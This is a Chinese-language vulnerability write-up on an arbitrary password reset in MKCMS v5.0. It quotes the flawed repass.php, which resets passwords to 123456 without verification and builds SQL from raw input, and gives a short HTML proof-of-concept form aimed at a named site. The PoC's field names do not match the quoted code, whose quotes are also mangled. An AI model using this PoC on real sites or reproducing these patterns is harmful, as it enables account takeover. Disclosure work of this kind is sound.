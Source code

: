 # MKCMS v5.0 任意密码重置漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3023](https://www.zhihuifly.com/t/topic/3023)

# MKCMS v5.0 任意密码重置漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/repass.php`第1-44行:

```
<?php 
include('../system/inc.php');
if(isset($_SESSION['user_name'])){
header('location:index.php');
};

if(isset($_POST[‘submit’])){

$username = stripslashes(trim($_POST[‘name’]));

$email = trim($_POST[‘email’]);

// 检测用户名是否存在

$query = mysql_query(“select u_id from mkcms_user where u_name=’$username’ and u_email=’$email’”);

if(!! $row = mysql_fetch_array($query)){

$_data[‘u_password’] = md5(123456);

$sql = ‘update mkcms_user set ‘.arrtoupdate($_data).’ where u_name="’.$username.’"’;

if (mysql_query($sql)) {

$token =$row[‘u_question’];

include(“emailconfig.php”);

//创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.

$smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true);

$smtp->debug = false;

$mailType = “HTML”; //信件类型，文本:text；网页：HTML

$email = $email;  //收件人邮箱

$emailTitle = “”.$mkcms_name.“用户找回密码”; //邮件主题

$emailBody = “亲爱的”.$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style=‘text-align:right’>-------- “.$mkcms_name.” 敬上</p>";

```
// sendmail方法
// 参数1是收件人邮箱
// 参数2是发件人邮箱
// 参数3是主题（标题）
// 参数4是邮件主题（标题）
// 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
$rs = $smtp-&gt;sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType); 
```

if($rs==true){

echo ‘<script>alert(“请登录到您的邮箱查看您的密码！”);window.history.go(-1);</script>’;

}else{

echo “找回密码失败”;

}

}

}

} `?>` 
```

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![image](img/d8d434b3a5337128ea31471f40ff69d1.png)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://v.micool.top/ucenter/repass.php" method="POST">
      <input type="hidden" name="u&#95;name" value="lduo123" />
      <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>                         
  </body>
</html> 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1

> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html